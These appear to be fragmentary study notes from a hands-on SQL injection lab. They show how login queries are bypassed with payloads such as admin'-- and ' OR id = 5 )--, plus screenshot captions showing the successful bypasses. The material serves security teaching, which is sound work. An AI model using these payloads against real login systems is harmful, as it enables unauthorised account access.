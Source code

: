 In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

![Admin panel showing an SQL query execution: SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f'; with a message: Login failed!](https://academy.hackthebox.com/storage/modules/33/paranthesis_fail.png)

![Admin panel showing an SQL query execution: SELECT * FROM logins WHERE (username='tom' AND id > 1) AND password='f86a3c565937e6315864d1a43c48e7'; with a message: Login successful as user: tom"](https://academy.hackthebox.com/storage/modules/33/tom_login.png)

![Admin panel showing an SQL query execution: SELECT * FROM logins WHERE (username='admin'--' AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f'; with a message: Login successful as user: admin"](https://academy.hackthebox.com/storage/modules/33/paranthesis_success.png)


```sql
SELECT * FROM logins where (username='admin')
```



normal:
```sql
SELECT * FROM logins WHERE username='[username]' AND password='[password]';

```

```bash
SELECT * FROM logins WHERE username='' OR user_id = 5 -- AND password='';

```

' OR user_id = 5 --


injected:
' OR id = 5 )-- 
win:
```sql
 Executing query: 
 SELECT * FROM logins WHERE (username='' OR id = 5 )-- ' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
```

